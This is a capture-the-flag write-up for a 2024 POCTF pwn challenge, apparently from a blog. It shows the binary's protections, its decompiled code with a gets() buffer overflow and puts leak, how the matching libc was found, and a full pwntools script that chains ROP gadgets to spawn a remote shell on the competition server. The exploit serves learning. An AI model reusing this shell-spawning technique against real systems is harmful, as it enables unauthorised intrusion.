

import PostFileDownload from "../../../components/PostFileDownload.astro";

## Exploit 300 - Empress of What

> The first time I successfully built a ROP chain, I thought the guy teaching me was a wizard. It felt like Prometheus personally delivering fire to light up the room. I'm not sure why. Something about it is just so cool to me. Taking little bits and pieces and assembling your own narrative. It opened up a whole new world of possibilities. It's something I'm glad I get to share with my students every year, and something I'm glad I get to share with you now. Enjoy.

<PostFileDownload name="2024-poctf-Exploit300-1.zip" />

```
Arch:       amd64-64-little
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
Stripped:   No
```

Decompiled with Ghidra, and it looked like a very short challenge that only does two things: leak puts, and a buffer overflow vulnerability:

```c
void vulnerable_function(void)

{
  char local_48 [64];

  printf("Enter your input: ");
  gets(local_48);
  return;
}

void leak_function(void)

{
  printf("Leaking libc address of puts: %p\n",puts);
  return;
}

void win(char *param_1)

{
  printf("Running command: %s\n",param_1);
  system(param_1);
  return;
}

undefined8 main(void)

{
  setvbuf(stdout,(char *)0x0,2,0);
  leak_function();
  vulnerable_function();
  return 0;
}
```

The idea of this challenge relies on the puts address leak, allowing you to get the libc address for you to spawn a shell with. Now by using buffer overflow, I could return to the win function with `/bin/sh` as the parameter and get a shell that way.

Doing this in local was quite simple, but the only issue was getting the correct libc on remote. I used https://libc.rip/ to input the puts leak to get a list of possible libc files.

I tested each result one by one and landed with `libc6-amd64_2.31-13+deb11u11_i386.so` and it worked perfectly.

Here's the final solve script:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# -*- template: winterbitia -*-

# ====================
# -- PWNTOOLS SETUP --
# ====================

from pwn import *

exe = context.binary = ELF(args.EXE or 'Exploit300-1')
trm = context.terminal = ['tmux', 'splitw', '-h']

host = args.HOST or '34.123.210.162'
port = int(args.PORT or 32006)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

gdbscript = '''
tbreak main
# b *vulnerable_function+42
continue
'''.format(**locals())

# =======================
# -- EXPLOIT GOES HERE --
# =======================

io = start()

RIP_OFFSET = 72
POP_RDI = 0x000000000040127b
RET = 0x0000000000401016
WIN_FUNC = 0x0000000000401152

log.info(io.recvuntil(": "))
leak = int(io.recvline().strip(),16)

libc = ELF("./libc6-amd64_2.31-13+deb11u11_i386.so")
libc.address = leak - libc.symbols['puts']
log.info(f"Leak: {hex(libc.address)}")

binsh = next(libc.search(b"/bin/sh"))

payload = flat(
    cyclic(RIP_OFFSET,n=8),
    POP_RDI,
    binsh,
    RET,
    WIN_FUNC
)

io.clean()
io.sendline(payload)
log.info(io.clean())

io.interactive()
```

Here's an example of the solve using my local libc because of course I didn't screenshot the remote solve:


